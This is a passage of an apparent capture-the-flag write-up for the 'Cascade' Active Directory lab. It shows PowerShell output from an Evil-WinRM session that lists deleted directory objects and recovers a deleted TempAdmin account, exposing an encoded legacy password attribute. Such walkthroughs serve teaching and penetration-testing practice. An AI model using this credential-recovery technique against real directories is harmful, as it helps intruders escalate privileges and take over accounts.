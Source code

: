 ```bash
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059

```

Filtering for the Object TempAdmin 

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property * | where-object DisplayName -eq -Value "TempAdmin"


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
```